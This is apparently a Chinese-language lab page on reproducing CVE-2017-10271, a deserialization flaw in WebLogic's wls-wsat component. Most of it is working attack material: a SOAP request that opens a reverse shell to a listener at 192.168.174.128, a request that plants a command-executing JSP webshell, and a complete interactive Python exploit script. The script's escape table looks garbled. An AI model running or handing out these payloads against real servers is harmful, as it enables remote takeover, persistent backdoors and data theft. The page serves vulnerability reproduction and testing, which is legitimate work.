



Weblogic < 10.3.6 wls-wsat XMLDecoder 反序列化漏洞 CVE-2017-10271¶
漏洞描述¶
Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
参考链接：
- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html
环境搭建¶
Vulhub启动测试环境：
docker-compose up -d
等待一段时间，访问http://your-ip:7001/即可看到一个404页面，说明weblogic已成功启动。

漏洞复现¶
反弹shell¶
发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/192.168.174.128/9999 0>&1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
成功获取shell：

webshell¶
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java><java version="1.4.0" class="java.beans.XMLDecoder">
<object class="java.io.PrintWriter">
<string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
<void method="println"><string>
<![CDATA[
<% if("poc".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b,0,a));
}
out.print("</pre>");
}
%>
]]>
</string>
</void>
<void method="close"/>
</object></java></java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
访问：http://your-ip:7001/bea_wls_internal/test.jsp，执行命令：

漏洞EXP¶
from __future__ import print_function
from builtins import input
import requests
import sys
url_in = sys.argv[1]
payload_url = url_in + "/wls-wsat/CoordinatorPortType"
payload_header = {'content-type': 'text/xml'}
def payload_command (command_in):
html_escape_table = {
"&": "&",
'"': """,
"'": "'",
">": ">",
"<": "<",
}
command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
payload_1 = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"> \n" \
" <soapenv:Header> " \
" <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\"> \n" \
" <java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\"> \n" \
" <void class=\"java.lang.ProcessBuilder\"> \n" \
" <array class=\"java.lang.String\" length=\"3\">" \
" <void index = \"0\"> " \
" <string>cmd</string> " \
" </void> " \
" <void index = \"1\"> " \
" <string>/c</string> " \
" </void> " \
" <void index = \"2\"> " \
+ command_filtered + \
" </void> " \
" </array>" \
" <void method=\"start\"/>" \
" </void>" \
" </java>" \
" </work:WorkContext>" \
" </soapenv:Header>" \
" <soapenv:Body/>" \
"</soapenv:Envelope>"
return payload_1
def do_post(command_in):
result = requests.post(payload_url, payload_command(command_in ),headers = payload_header)
if result.status_code == 500:
print("Command Executed \n")
else:
print("Something Went Wrong \n")
print("***************************************************** \n" \
"**************** Coded By 1337g ****************** \n" \
"* CVE-2017-10271 Blind Remote Command Execute EXP * \n" \
"***************************************************** \n")
while 1:
command_in = input("Eneter your command here: ")
if command_in == "exit" : exit(0)
do_post(command_in)